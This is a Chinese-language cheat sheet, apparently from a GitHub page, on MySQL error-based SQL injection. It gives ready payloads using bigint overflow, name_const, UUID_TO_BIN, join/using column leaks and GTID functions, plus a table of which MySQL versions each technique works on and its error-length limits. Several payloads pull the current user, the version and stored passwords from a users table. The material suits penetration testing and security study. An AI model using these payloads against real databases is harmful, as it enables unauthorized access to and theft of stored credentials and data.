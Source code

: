 ### Bigint数值操作：

当mysql数据库的某些边界数值进行数值运算时，会报错的原理。

如~0得到的结果：18446744073709551615

若此数参与运算，则很容易会错误。

payload: `select !(select * from(select user())a)-~0;`

### name_const()

仅可取数据库版本信息

payload: `select * from(select name_const(version(),0x1),name_const(version(),0x1))a`

### uuid相关函数

适用版本：8.0.x

参数格式不正确。

```
mysql> SELECT UUID_TO_BIN((SELECT password FROM users WHERE id=1));
mysql> SELECT BIN_TO_UUID((SELECT password FROM users WHERE id=1));
```

### join using()注列名

通过系统关键词join可建立两个表之间的内连接。

通过对想要查询列名的表与其自身建议内连接，会由于冗余的原因(相同列名存在)，而发生错误。

并且报错信息会存在重复的列名，可以使用 **USING** 表达式声明内连接（INNER JOIN）条件来避免报错。

```
mysql>select * from(select * from users a join (select * from users)b)c;
mysql>select * from(select * from users a join (select * from users)b using(username))c;
mysql>select * from(select * from users a join (select * from users)b using(username,password))c
```

### GTID相关函数

参数格式不正确。

```
mysql>select gtid_subset(user(),1);
mysql>select gtid_subset(hex(substr((select * from users limit 1,1),1,1)),1);
mysql>select gtid_subtract((select * from(select user())a),1);
```

### 报错函数速查表

注：默认MYSQL_ERRMSG_SIZE=512

| 类别              | 函数                                                         | 版本需求        | 5.5.x | 5.6.x | 5.7.x | 8.x  | 函数显错长度 | Mysql报错内容长度 | 额外限制            |
| ----------------- | ------------------------------------------------------------ | --------------- | ----- | ----- | ----- | ---- | ------------ | ----------------- | ------------------- |
| 主键重复          | floor round                                                  | ❓               | ✔️     | ✔️     | ✔️     |      | 64           |                   | data_type ≠ varchar |
| 列名重复          | name_const                                                   | ❓               | ✔️     | ✔️     | ✔️     | ✔️    |              |                   | only version()      |
| 列名重复          | join                                                         | [5.5.49, ?)     | ✔️     | ✔️     | ✔️     | ✔️    |              |                   | only columns        |
| 数据溢出 - Double | 1e308 cot exp pow                                            | [5.5.5, 5.5.48] | ✔️     |       |       |      |              | MYSQL_ERRMSG_SIZE |                     |
| 数据溢出 - BIGINT | 1+~0                                                         | [5.5.5, 5.5.48] | ✔️     |       |       |      |              | MYSQL_ERRMSG_SIZE |                     |
| 几何对象          | geometrycollection linestring multipoint multipolygon multilinestring polygon | [?, 5.5.48]     | ✔️     |       |       |      |              | 244               |                     |
| 空间函数 Geohash  | ST_LatFromGeoHash ST_LongFromGeoHash ST_PointFromGeoHash     | [5.7, ?)        |       |       | ✔️     | ✔️    | 128          |                   |                     |
| GTID              | gtid_subset gtid_subtract                                    | [5.6.5, ?)      |       | ✔️     | ✔️     | ✔️    | 200          |                   |                     |